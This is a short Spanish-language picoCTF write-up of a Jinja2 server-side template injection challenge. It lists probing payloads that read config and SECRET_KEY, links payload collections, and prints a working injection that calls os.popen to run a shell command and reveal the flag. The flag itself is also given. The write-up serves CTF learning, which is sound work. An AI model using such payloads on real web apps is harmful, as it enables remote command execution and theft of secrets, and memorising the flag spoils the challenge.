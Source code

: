 
#### Description

I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:50911/)!


Detalles: para solucionar el reto tenemos que ir al sitio proporcionado y intentar distintos payloads  
Payloads:
{{config}}
{{settings}}
{{settings.SECRET_KEY}}
etc una ves probados bastantes payloads sacados de las siguientes webs https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection#jinja2-python 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSLT%20Injection/README.md

formaremos el siguiente payload que nos dara la bandera: 

{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}} 
# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}


recursos: https://www.youtube.com/watch?v=i31LwsQTy8I&ab_channel=BlackBatTerminal

Equipo: Marco Rojas, Brandon Omar, Luis Jesús 
